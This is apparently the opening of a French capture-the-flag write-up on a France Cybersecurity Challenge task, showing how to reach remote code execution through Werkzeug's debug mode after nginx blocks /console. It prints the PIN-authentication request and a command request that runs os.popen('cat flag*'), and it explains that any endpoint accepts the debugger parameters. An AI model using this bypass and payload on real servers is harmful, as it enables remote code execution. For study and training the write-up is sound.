 Le end-point de debug `/console` n'est plus accessible et la stackstrace d'erreur non plus. L'objectif quant à lui reste le même: *RCE via le mode debug activé*

## Partie 1: Bypass de /console et premières réflexions.

La première chose que j'ai faite et de ré-utiliser le challenge précédent pour voir quelles requêtes étaient envoyés depuis mon navigateur. Deux en sont ressorties :


- **L'envoi du code pin au moment de l'authentification** :
    ```
    GET /console?__debugger__=yes&cmd=pinauth&pin=415-333-840&s=Reqj7S50iZAVj97HzbW4 HTTP/1.1
    Host: tweedle-dum.france-cybersecurity-challenge.fr
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
    Sec-Ch-Ua-Platform: "Windows"
    Accept: */*
    Referer: https://tweedle-dum.france-cybersecurity-challenge.fr/console
    Connection: close
    ```

- **L'envoi d'une commande via la console après authentification** :
  ```
  GET /console?&__debugger__=yes&cmd=__import__(%27os%27).popen(%27cat%20flag*%27).read()%3B&frm=0&s=Reqj7S50iZAVj97HzbW4 HTTP/1.1
  Host: tweedle-dum.france-cybersecurity-challenge.fr
  Cookie: __wzdf352e7b3f2a1e68a6bbc=1682640498|145ff1701ade
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
  Sec-Ch-Ua-Platform: "Windows"
  Accept: */*
  Referer: https://tweedle-dum.france-cybersecurity-challenge.fr/console
  Connection: close
  ```

Il semblerai que la première étape soit de s'authentifier puis de passer une commande dans le paramètre **cmd**.

### Problèmes :

#### 1) /console interdit !

Il faut se rendre dans le code source de la partie debug de werkzeug pour comprendre : [ici](https://github.com/pallets/werkzeug/blob/main/src/werkzeug/debug/__init__.py#L500)

On voit que ce qui trigger le code qui mène à la RCE est `__call__`.  
Cela veut dire que n'importe quel end-point fonctionnerai de la même manière que */console* !

Si on test avec le challenge précédent :  
![Alt text](./img/5.png)

Bingo, On a trouvé un moyen de bypass le nginx !
Les paramètres à passer sont:  
  - `__debugger__` = yes
  - `cmd` = ...
  - `frm` = ...
  - `s` = ...
